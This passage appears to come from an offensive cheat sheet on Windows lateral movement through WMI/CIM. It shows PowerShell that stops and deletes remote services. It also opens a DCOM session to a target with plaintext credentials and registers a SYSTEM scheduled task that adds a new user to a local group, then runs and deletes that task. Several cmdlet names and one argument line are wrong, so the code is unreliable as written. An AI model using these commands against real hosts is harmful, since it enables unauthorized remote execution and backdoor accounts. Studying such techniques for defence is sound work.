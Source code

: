```
PS C:\> Invoke-CimMethod -InputObject $Service -MethodName StopService
```

Delete service

```
PS C:\> Invoke-CimMethod -InputObject $Service -MethodName Delete
```

#### 2.2.3 - Schedule Tasks

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "cmd.exe"

$Args = "/c net user <username> <password> /add & net localgroup `"<local_group>`" <username> /add /y"

# Create new schedule task

$Action = New-ScheduleTaskAction -CimSession $Session -Execute $Command $Argument $Args

Register-ScheduleTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<schedule_taskname>"

# Execute schedule task

Start-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"

# Delete schedule task

Unregister-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"
```

---
## References

- [LOFLCAB: WMIC](https://lofl-project.github.io/loflcab/Binaries/wmic/)

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)
